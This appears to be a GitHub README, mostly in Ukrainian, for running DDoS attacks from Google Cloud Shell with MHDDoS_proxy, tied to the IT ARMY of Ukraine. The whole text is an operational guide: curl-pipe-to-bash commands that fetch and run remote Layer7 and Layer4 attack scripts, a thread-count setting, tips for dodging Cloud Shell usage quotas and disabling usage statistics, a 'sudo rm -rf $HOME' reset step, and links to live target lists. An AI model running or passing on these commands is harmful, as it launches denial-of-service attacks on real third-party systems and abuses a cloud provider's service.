 ## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Script for durable cloudshell session. Test
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

### Команди для запуску атаки
**по Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
**по Layer4:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
**Подвійна атака (Layer7+Layer4) розділений термінал (tmux):**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
Дозволяється запускати до 4 терміналів на 1 акаунт але **рекомендується 1 термінал на акаунт**.    
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
**Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart". *Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням.*
#
:white_check_mark: **Автоперезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди** ` -s -- "кількість"`, **наприклад:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash -s -- 2000
```
#
#### Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst

#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
